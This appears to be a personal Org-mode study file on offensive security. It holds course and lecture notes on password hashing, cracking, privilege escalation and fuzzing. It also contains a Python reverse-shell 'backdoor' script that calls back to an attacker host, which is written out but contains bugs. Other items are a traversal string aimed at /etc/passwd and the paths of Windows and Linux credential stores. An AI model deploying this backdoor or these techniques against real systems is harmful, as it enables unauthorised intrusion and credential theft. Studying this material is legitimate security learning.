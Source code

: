 #+TAGS: sec_o


* Offensive							      :sec_o:
* Description
* Recon
* Enumeration
** using hex to move to the passwd file
 - 2E2E2Fetc/passwd - /../etc/passwd
* Exploitation
** Passwords
*** Cmds
- [[file://home/crito/org/tech/security/security_tools/hashcat.org][hashcat]]
- [[file://home/crito/org/tech/security/security_tools/john_the_ripper.org][John the Ripper]]
*** Links
[[http://www.adeptus-mechanicus.com/codex/jtrhcmkv/jtrhcmkv.php][John the Ripper and Hashcat - Markov Mode Comparison]]
* Maintaining Access 
* Covering Tracks
* Attacks
- Cold boot
- Cross Site Request Forgery (CSRF)
- Cross Site Tracing (XST)
- DLL injection
- Evil Maid
- Heartbleed
- Local File Inclusion Vulnerability
- Man in the Middle
- Ruby attack
- Shellshock

* Code
** Python
*** Backdoor Shell
#+BEGIN_SRC py
#!/usr/bin/python
import subprocess #Process commands
import socket #Process socket data

host = '127.0.0.1' # Attack Machine
port = 443 # Attack Port
passwd = 's3cr3t' 

# chek password
def Login():
    global s
    s.send("Login: ")
    pwd = s.recv(1024)

    if pwd.strip() is passwd:
        Login()
    else:
        s.send("Connected #> ")
        shell()

# Execute shell cmds
def Shell();
    while True:
        data = s.recv(1024)

        if data.strip() == ":kill":
            break

        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        output = proc.stdout.read() + proc.stderr.read()
        s.send("#> ")

# Start Script
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
Login()
#+END_SRC
* Lecture
** [[https://www.youtube.com/watch?v%3DgYOy7CGpPIU][The Makin of atlas: Kiddie to Hacker in 5 Sleepless Nights]]
http://atlas.r470y.com/ - atlas blog   

- Tools
  - objdump - reads the headers of executables
    - objdump -x demystified - this will dump all headers
  - ReadElf
  - GDB
  - Ktrace/KDump
    


* Tutorial
** PluralSight - System Hacking - Dale Meredith

*** Intro

What to do before attack
+ recon & footprinting
    - ip range
    - Namespace
    - Public Data
+ Scanning
    - ID targets
    - ID services
    - ID O/S
+ Enumeration
    - User lists
    - Security flaws
    - Resources

What are our goals
+ Gain Access
+ Maintaining Access
+ Covering Tracks


**** Gaining Access
Complexity - MS you must use at least 3 of Upper case, Lower case, Numbers and Special characters
Password recovery time simulator - free

***** Architecture
****** Windows
Local machines: SAM Database - C:\windows\system32\config\sam
Stored as hashes - mounted as HKLM/SAM
Older machines may have C:\windows\repair with backups of passwords

Active Directory: ntds.dit - C:\windows\ntds
stores all passwords for domain controller     

****** Linux
/etc/shadow

****** OS X
/var/db/dslocal/nods/default/users

ophcrack to crack the hash - ophcrack has a live cd


****** Techniques Used
+ Dictionary Attack - Text files of words - Languages - Subjects
+ Brute-Force Attacks - Takes longer - beyond 14+ starts getting difficult
+ Syllable Attacks - Dictionary and brute-force attack
+ Hybrid Attacks - Dictionary using variation on numbers & special chars
+ Rule-Base Attacks - Using discovered rules to specify shape of password
+ Guessing - Using information gleaned to make educated guesses - social media etc
  
****** Types of Attacks
| Passive Online | Sniffing, MIM, Sidejacking(firesheep)             |
| Active Onle    | Hash injection, trojan/keylogger                  |
| Offline        | Rainbow, Distributed network, pre-computed hashes |
| Non-electronic | Dumpster diving, social engineering               |

Hashes 
LM Hash - des
+ LM Hash/NTLM stores passwords up to 14 chars
+ All characters are converted to UPPER case
+ Padded with blank characters to fill out all 14 chars.
+ Then split into 7 chars stings
+ Each 7 char string is then encrypted and combined back 

NTLM 1 - md4 NTLM 2 - md5
Bwayne:1005:85D8D0AEB8D112F8F9954FC9DF57E012:ED7B273FDE21FFE559AC8D1B9D3729BC:::
Administrator:500: xxxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
Guest:501:NOPASSWORD**********************:NOPASSWORD*********************:::

Notes
+ 500 cid in MS is always admin
+ Any hash that ends with: AAD3B435B51404EE - last 7 chars blank
+ Any password with 15+ chars: the LM hash value is "dummied" with AAD3B435B51404EEAAD3B435B51404EE

****** NTLM Authentication
+ NTLM is used whtn 
  - There is no Kerberos trust between two different forests
  - Authentication is attempted by IP and not by DNS
  - If oe or both systems are not in the same domain
  - If your FW is blocking Kerberos ports
  
******* How it's used
+ Challenge response algorithm
+ Passwords are not transmitted
+ V1 came with NT - V2 cam with NT SP4

******* The Process

user enters pass -----> windows generates a hash
        |
        |
        ---------------------------------------------> Domain Controller
	                      Request                            |
          <-------------------------------------------------------	
                             hash sent by DC
       ---------------------------------------------------------->
                      hast and challenge sent back
		      
****** Kerberos Authentication - used on modern MS
+ Ticket based
+ Avoids transmitting passwords
+ Time based

1. user requests TGT 
2. DC issues TGT
3. TGT is presented to machines in the network to access services
PDC needs to be synced otherwise kerberose doesn't work

****** Salting 
+ Append or prepending random strings
+ done before hashing
+ prevents duplicate hashes
+ unique to each password
  
****** Rainbow tables
+ Precomputed hash tables
+ Huge files

+ website for checking hashes tobtu.com 
+ lm hash checking hashes rainbowrables.it64.com
+ dictionaries can be found at outpost9.com

**** Maintaining Access
     
+ Look around
  - config errors
  - design errors
  - layouts
  - programming flaws

***** Four Methods for Escalation
1. Pwn the admin/root acct
2. Take advantage of vuln
3. Fire up the sploit - alt to sploit - canvas, core-impact
4. Have a user do it for you!

***** Types of Escalation
+ Vertical - user gains admin level access
+ Horizontal - move to a user 
  
***** Counter Measures
+ encryption - encrypted hdd 
+ Least priv - don't over allocate a user
+ sw upto date
+ Limit interactive logon
+ Service accts are limited
+ Limit code that can run with privs

***** Slow down attacker
+ Priv separation approach
+ test os and app code before running
+ Multi-factor
+ Stress test code, apps befor deploying

**** Cover Tracks

** [[https://www.youtube.com/watch?v%3D0fbBwGAuINw][How to Exploit Metasploitable 2 with NMap, Nexpose, Nessus and Metasploit]]
- getting a html report from nmap report
#+BEGIN_SRC sh
nmap -O -sV -sC -oX nmap-scan.xml 192.168.56.101
cp /usr/share/nmap/nmap.xsl .
#+END_SRC
We need the nmap.xsl as it is the stylesheet for the xml file

- Vulnerability Scanners
  - OpenVAS
  - Nessus
  - Nexpose
** ISSA Web Pen-testing Workshop
*** [[https://www.youtube.com/watch?v%3DJPd2YtgJm8Q][Intro to Mutillidae, Burp Suite & Injection]]

** Offensive Security 2013 - FSU 
*** [[https://www.youtube.com/watch?v%3D4yNgP3CUOWo][Lecture 2: Linux Overview]]
** [[https://www.youtube.com/watch?v%3D3y8JuixcSdU][Lecture 7: Fuzzing]]

- Exploitation Theory
  - Von Neumann Arch
    - unable to distinguish between data and instructions
    - instruction and data stores in same memory
      - this allows for the modification of code
  - Harvard Mode
    - this seperates out data and instruction into there own memory
      - this is implemented inside processors for specfic tasks, but not on whole systems
  - Other Architectures
    - Tagged Arch
    - Capablility Arch
    - Trusted Computing Base

- Exploits can be generalized into a three step process
1. Some sort of memory corruption
2. Change / hijack of control flow
3. Execution of the shellcode
   
- What is fuzzing?
  - The process of sending specific data to an application in hope to elicit certain responses
  - Specific?
    - Mutated data, generational data, edge cases, unanticipated datatypes, etc.
  - Certain?
    - crashes, errors, anomalous behaviour, different application states
      
- Fuzzing Phases
  1. Identify Target (application)
  2. Identify inputs
  3. Generate Fuzzed Data
     - Two methods for fuzzing data
      i) Generation
      ii) Mutation
  4. Execute Fuzzed Data
  5. Monitor for Exceptions
  6. Determine Exploitability
     
- Methods for generating fuzzed data
  - Generation fuzzing
  - Mutation fuzzing
    
- Generating fuzzed data
  - String repetitions
    - A*10, A*100, A*1000
  - Character translations
  - Directory Traversal
  - delimiters
  - Metacharacter / Command injection
    - sql -- comment
  - File types
  - Bit Flipping for protocol headers

Vulnerablility Scoring
http://www.first.org/cvss

HAOE book cd has a vanilla system that has a lot of the counter measures switched off 

** Offensive Security 2014 - FSU
Owen Redwood
*** [[https://www.youtube.com/watch?v%3Dlk3rp53b2NA][Lecture 1: Intro]]
- reading list
  - hacking the art of exploitation
  - the hacker's handbook to web applications

*** [[https://www.youtube.com/watch?v%3DlbjS2mXyMEQ][Lecture 2 - Secure Coding in C]]
- web tool that visuzlises code to assemby
  - http://gcc.godbolt.org
- reading list    
  - Secure Coding in C and C++ - Robert Seacord
    
http://websec.github.io/unicode-security-guide/character-transformations/



* Books
* Links
